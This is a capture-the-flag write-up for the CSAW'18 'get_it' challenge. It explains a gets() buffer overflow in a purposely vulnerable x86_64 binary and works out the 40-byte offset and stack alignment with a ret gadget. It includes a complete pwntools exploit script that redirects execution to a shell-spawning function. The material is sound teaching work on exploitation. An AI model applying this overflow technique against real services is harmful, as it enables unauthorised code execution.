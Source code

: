 # CSAW'18 Getit – Binary Exploitation Writeup

## Challenge Info
- **Binary:** `get_it`
- **Architecture:** x86_64
- **Security Features:**
  - NX enabled
  - No stack canary
  - Partial RELRO
  - No PIE (static addresses)
- **Objective:** Exploit a buffer overflow in `main` to execute `give_shell()`.

---

## Analysis

The binary contains two relevant functions:

```c
// main function
undefined8 main(void)
{
    char local_28[32];
    puts("Do you gets it??");
    gets(local_28);
    return 0;
}

// give_shell function
void give_shell(void)
{
    system("/bin/bash");
    return;
}
```

### Observations

1. The `gets()` function is used, which is **unsafe** and allows for buffer overflow.
2. The buffer `local_28` is **32 bytes**, but the stack frame adds some padding and saved registers, so we need to carefully calculate the offset to overwrite the return address.

---

## Finding the Offset

Using GDB and PWNDBG:

```text
p 0x7ffe76149bb8 - 0x7ffe76149b90 = 40
```

This shows that the offset to overwrite `RIP` is **40 bytes**. This includes:

- 32 bytes buffer
- 8 bytes for saved base pointer (RBP)

---

## Stack Alignment

On x86_64 Linux, the **stack must be 16-byte aligned** before calling functions (like `system()`).
If the stack is misaligned, you may get crashes (SIGSEGV) even if your payload seems correct.

- In this binary, we use a `ret` gadget (`0x400451`) before `give_shell()` to **align the stack** properly.
- This ensures `RSP % 16 == 0` when the call to `system("/bin/bash")` executes.

---

## Crafting the Exploit

### ROP Gadgets

Using `ROPgadget`:

```text
0x400451 : ret
0x4005b6 : give_shell
```

The `ret` instruction is used to align the stack.

### Payload

```python
from pwn import *

pay = b""
pay += b"A"*40          # Offset to RIP
pay += p64(0x400451)      # ret gadget for stack alignment
pay += p64(0x4005b6)      # give_shell address

p = process("./get_it")
p.recvuntil(b"Do you gets it??")
p.sendline(pay)
p.interactive()
```

---

## Demonstration

The full walkthrough is recorded in the `just.cast` asciinema file, which shows the exploit execution and successful shell spawn.

```bash
asciinema play just.cast
```

This file provides a **step-by-step visual demonstration** of the exploit in action.

---

**Notes:**
- Always check the stack alignment for x86_64 before calling functions like `system()`.
- Using `ret` gadgets is a common technique to fix alignment issues in 64-bit ROP chains.

